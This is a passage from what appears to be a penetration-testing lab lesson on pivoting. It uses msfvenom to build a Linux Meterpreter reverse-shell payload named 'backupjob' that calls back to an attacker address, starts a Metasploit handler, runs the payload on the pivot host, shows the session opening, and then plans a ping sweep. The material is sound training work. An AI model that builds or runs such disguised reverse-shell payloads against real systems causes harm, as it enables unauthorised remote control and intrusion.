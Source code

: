 #### Creating Payload for Ubuntu Pivot Host

    matmarqx@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
    
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 130 bytes
    Final size of elf file: 250 bytes
    Saved as: backupjob
    

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.

#### Configuring & Starting the multi/handler

    msf6 > use exploit/multi/handler
    
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8080
    lport => 8080
    msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
    payload => linux/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > run
    [*] Started reverse TCP handler on 0.0.0.0:8080 
    

We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.

#### Executing the Payload on the Pivot Host

    ubuntu@WebServer:~$ ls
    
    backupjob
    ubuntu@WebServer:~$ chmod +x backupjob 
    ubuntu@WebServer:~$ ./backupjob
    

We need to make sure the Meterpreter session is successfully established upon executing the payload.

#### Meterpreter Session Establishment

    [*] Sending stage (3020772 bytes) to 10.129.202.64
    [*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
    meterpreter > pwd
    
    /home/ubuntu
    

We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network. We can do that using Meterpreter with the `ping_sweep` module, which will generate the ICMP traffic from the Ubuntu host to the network `172.16.5.0/23`.
